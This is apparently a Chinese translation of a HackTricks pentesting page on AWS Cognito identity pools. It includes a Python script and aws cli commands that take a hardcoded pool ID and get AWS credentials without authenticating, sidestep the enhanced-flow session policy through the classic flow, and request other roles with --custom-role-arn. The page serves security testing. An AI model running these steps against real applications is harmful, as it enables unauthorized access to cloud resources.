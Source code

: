 # Cognito身份池

<details>

<summary><strong>支持HackTricks并获得福利！</strong></summary>

* 如果您想在HackTricks中看到您的公司广告，或者如果您想访问PEASS的最新版本或下载PDF格式的HackTricks，请查看[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS和HackTricks周边产品**](https://peass.creator-spring.com)
* 发现我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram群组**](https://t.me/peass) 或 **关注**我的 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) **和** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github仓库提交PR来分享您的黑客技巧。**

</details>

## 基本信息

使用身份池，您的用户可以**获取临时的AWS凭证来访问AWS服务**，例如Amazon S3和DynamoDB。身份池支持匿名访客用户，以及以下身份提供者，您可以使用它们来对身份池的用户进行身份验证：

* Amazon Cognito用户池
* 通过Facebook、Google、Login with Amazon和Sign in with Apple进行社交登录
* OpenID Connect (OIDC)提供者
* SAML身份提供者
* 开发者认证身份

### Cognito Sync

要生成身份池会话，您首先需要**生成一个身份ID**。这个身份ID是**该用户会话的标识**。这些标识可以有多达20个数据集，每个数据集可以存储多达1MB的键值对。

这对于**保留用户信息**（始终使用相同的身份ID的用户）非常有用。

此外，服务**cognito-sync**是允许**管理和同步此信息**的服务（在数据集中发送信息、流和SNS消息等）。

## 访问IAM角色

### 未经身份验证

攻击者要想以未经身份验证的用户身份在Cognito应用中**获取AWS凭证**，唯一需要知道的是**身份池ID**，并且这个**ID必须在Web/移动应用程序中硬编码**以供使用。一个ID看起来像这样：`eu-west-1:098e5341-8364-038d-16de-1865e435da3b`（无法通过暴力破解获得）。

{% hint style="success" %}
通过默认方式创建的**IAM Cognito未经身份验证角色**被称为`Cognito_<Identity Pool名称>Unauth_Role`
{% endhint %}

如果您发现一个硬编码的身份池ID并且允许未经身份验证的用户，您可以使用以下方法获取AWS凭证：
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
或者您可以使用以下的 **aws cli 命令**：
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
请注意，默认情况下，未经身份验证的Cognito用户**无法获得任何权限，即使通过策略分配了权限**。请检查以下部分。
{% endhint %}

### 增强 vs 基本身份验证流程

前一节遵循了**默认的增强身份验证流程**。该流程为生成的IAM角色会话设置了一个**限制性的**[**会话策略**](../../aws-basic-information/#session-policies)。该策略只允许会话使用[**此列表中的服务**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services)（即使角色具有对其他服务的访问权限）。

然而，如果**身份池启用了"基本（经典）流程"**，则可以绕过此限制，用户将能够使用该流程获取会话，该会话**不会有限制性的会话策略**。

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
如果您收到此**错误**，那是因为**基本流程未启用（默认）**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

拥有一组 IAM 凭据后，您应该检查[您拥有的访问权限](../../#whoami)并尝试[提升权限](../../aws-privilege-escalation/)。

### 已认证

{% hint style="info" %}
请记住，**已认证用户**可能会被授予**不同的权限**，因此如果您可以在应用程序内**注册**，请尝试这样做并获取新的凭据。
{% endhint %}

对于**已认证用户访问身份池**，可能还可以使用**角色**。

为此，您可能需要访问**身份提供者**。如果是**Cognito 用户池**，也许您可以滥用默认行为并**自己创建新用户**。

{% hint style="success" %}
通过 IAM Cognito 认证角色默认称为 `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

无论如何，**以下示例**假设您已经登录到用于访问身份池的**Cognito 用户池**中（不要忘记还可以配置其他类型的身份提供者）。

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# 从上一个命令的响应中获取 identity_id
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# 在 IdToken 中，您可以找到用户因为用户池组而具有访问权限的角色
# 使用 --custom-role-arn 获取特定角色的凭据
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
可能会根据用户登录的**身份提供者**或甚至仅根据**用户**（使用声明）配置不同的 IAM 角色。因此，如果您可以通过相同或不同的提供者访问不同的用户，登录并访问所有用户的 IAM 角色可能是**值得的**。
{% endhint %}

<details>

<summary><strong>支持 HackTricks 并获得福利！</strong></summary>

* 如果您希望在 HackTricks 中看到您的**公司广告**，或者如果您想访问**PEASS 的最新版本或下载 PDF 格式的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS 和 HackTricks 商品**](https://peass.creator-spring.com)
* 发现[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注**我在 **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 仓库提交 PR 来分享您的黑客技巧**。

</details>
